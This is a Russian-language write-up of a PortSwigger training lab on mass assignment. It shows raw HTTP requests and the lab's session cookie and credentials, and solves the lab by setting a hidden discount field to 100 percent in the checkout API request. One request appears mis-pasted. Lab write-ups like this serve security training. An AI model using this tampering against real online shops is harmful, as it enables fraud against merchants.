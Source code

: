 ```yaml
---
title: "Exploiting a mass assignment vulnerability"
date: 2025-08-28
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/api-testing/api-testing-mass-assignment-vulnerabilities/api-testing/lab-exploiting-mass-assignment-vulnerability"
classes: wide
---
```


Для прохождения лабы нужно найти эндпоинт с помощью **атаки на API**, который позволит купить `Lightweight l33t Leather Jacket`. Для входа в аккаунт можно использовать креды `wiener`:`peter`.

```
https://0a46003b0383e82c8002f36a00d800fc.web-security-academy.net/
```

## Solution

Зайду в личный кабинет. Затем добавлю нужный товар в корзину:

```http
POST /cart HTTP/2
Host: 0a46003b0383e82c8002f36a00d800fc.web-security-academy.net
Cookie: session=nWRkAcVdJbEPb97h2aoNUy3qJKglGX8O
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a46003b0383e82c8002f36a00d800fc.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: https://0a46003b0383e82c8002f36a00d800fc.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

productId=1&redir=PRODUCT&quantity=1
```

Простой запрос. Попробую оформить заказ:

```http
POST /cart HTTP/2
Host: 0a46003b0383e82c8002f36a00d800fc.web-security-academy.net
Cookie: session=nWRkAcVdJbEPb97h2aoNUy3qJKglGX8O
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a46003b0383e82c8002f36a00d800fc.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: https://0a46003b0383e82c8002f36a00d800fc.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

productId=1&redir=PRODUCT&quantity=
```

Ответ:

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 153

{"chosen_discount":{"percentage":0},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":2,"item_price":133700}]}
```

Такс, вижу интересный параметр: `"chosen_discount":{"percentage":0}`. А что, если поменять при оформлении заказа?

```http
POST /api/checkout HTTP/2
Host: 0a46003b0383e82c8002f36a00d800fc.web-security-academy.net
Cookie: session=nWRkAcVdJbEPb97h2aoNUy3qJKglGX8O
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a46003b0383e82c8002f36a00d800fc.web-security-academy.net/cart
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
Content-Type: application/json; charset=utf-8
Content-Length: 155

{"chosen_discount":{"percentage":100},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":2,"item_price":133700}]}
```

Заказ оформлен с отличной скидкой)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_api_testing/IMG_Exploiting_a_mass_assignment_vulnerability/1.png){: height="200" .align-center}
